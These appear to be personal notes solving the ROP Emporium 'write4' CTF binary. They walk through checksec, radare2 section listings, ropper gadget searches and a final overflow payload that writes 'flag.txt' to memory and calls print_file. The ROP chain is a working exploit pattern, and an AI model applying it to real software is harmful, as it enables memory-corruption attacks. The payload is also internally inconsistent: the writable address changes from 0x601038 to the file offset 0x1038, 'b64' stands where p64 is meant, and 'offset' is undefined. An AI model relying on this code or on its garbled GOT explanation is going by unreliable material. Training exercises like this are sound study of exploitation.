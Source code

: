 # 04: write4


https://ropemporium.com/binary/write4.zip


Call print_file(), PLT entry exists
Arg1=address of the file name
Build "flag.txt" string
   Where store string : check out sections with write permissions.
   get gadgets write: mov [reg], reg; ret

   b'flag.txt' fit in a register
   

## checksec 

```
$ checksec write4
[*] '/home/yolo/yolo/BufferOverflows/ropemporium/04_write4/write4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found       <-- overflow ok
    NX:       NX enabled            <-- no asm payload 
    PIE:      No PIE (0x400000)     <-- easy address 
    RUNPATH:  b'.'
```

## Functions

```
$ r2 write4
[0x00400520]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400520]> afl
0x00400520    1 42           entry0
0x004004d0    3 23           sym._init
0x004006a4    1 9            sym._fini
0x00400560    4 42   -> 37   sym.deregister_tm_clones
0x00400590    4 58   -> 55   sym.register_tm_clones
0x004005d0    3 34   -> 29   entry.fini0
0x00400600    1 7            entry.init0
0x00400617    1 17           sym.usefulFunction
0x00400510    1 6            sym.imp.print_file
0x004006a0    1 2            sym.__libc_csu_fini
0x00400630    4 101          sym.__libc_csu_init
0x00400550    1 2            sym._dl_relocate_static_pie
0x00400607    1 16           main
0x00400500    1 6            sym.imp.pwnme
```

print_file_addr = b64(0x00400510)


## Where

```
$ r2 write4
[0x00400520]> aaaa
[0x00400520]> iS 
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- 
1   0x00000238   0x1c 0x00400238   0x1c -r-- .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- .note.ABI_tag
3   0x00000274   0x24 0x00400274   0x24 -r-- .note.gnu.build_id
4   0x00000298   0x38 0x00400298   0x38 -r-- .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
25  0x00001038   0x29 0x00000000   0x29 ---- .comment
26  0x00001068  0x618 0x00000000  0x618 ---- .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- .shstrtab
```

Let write in .got or .bss or .data


```
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
```

writable_addr      = p64(0x0000000000601038)

Got section basically can contain addresses of Global variables and functions. 
All the global variables are in the first couple of slots and suffix is all pointers to functions. 
gotplt is the first slot .got that contains only the addresses of function..
Eventually after function addresses are resolved via means of plt. The resolved address goes into .gotplt which btw is inside .got

.bss  contains statically allocated variables that are declared but have not been assigned a value yet.
.data section contains the data itself,

## Gadgets to write


```
0000000000400628 <usefulGadgets>:
  400628:	4d 89 3e             	mov    %r15,(%r14)
  40062b:	c3                   	retq   
  40062c:	0f 1f 40 00          	nopl   0x0(%rax)
```

```
$ gdb write4
gdb-peda$ disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:	mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:	ret    
   0x000000000040062c <+4>:	nop    DWORD PTR [rax+0x0]
End of assembler dump.
```

```
$ ropper -f write4 | grep mov
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
...
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
...
0x0000000000400628: mov qword ptr [r14], r15; ret; 
```

write_to = p64(0x0000000000400628)


## Gadgets to set r15 et r14

```
$ ropper -f write4 | grep r15
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000400628: mov qword ptr [r14], r15; ret; 
0x000000000040068c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068e: pop r13; pop r14; pop r15; ret; 
0x0000000000400690: pop r14; pop r15; ret; 
0x0000000000400692: pop r15; ret; 
0x000000000040068b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068f: pop rbp; pop r14; pop r15; ret; 
0x0000000000400691: pop rsi; pop r15; ret; 
0x000000000040068d: pop rsp; pop r13; pop r14; pop r15; ret; 
```


0x0000000000400690: pop r14; pop r15; ret; 
gadget_pop_r14_r15 = p64(0x0000000000400690)


## Gadgets to set rdi

```$ ropper -f write4 | grep rdi
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000400693: pop rdi; ret; 
```


## Payload 

writable_addr      = p64(0x00001038)
gadget_pop_r14_r15 = p64(0x0000000000400690)
val_r14            = writable_addr
val_r15            = b"flag.txt"   # put value in r15
write_to           = p64(0x0000000000400628)
gadget_pop_rdi     = p64(0x0000000000400693)
print_file_addr    = b64(0x00400510)
payload = b'A'*offset + gadget_pop_r14_r15 + val_r14 + val_r15 + write_to + gadget_pop_rdi + writable_addr + print_file_addr

## 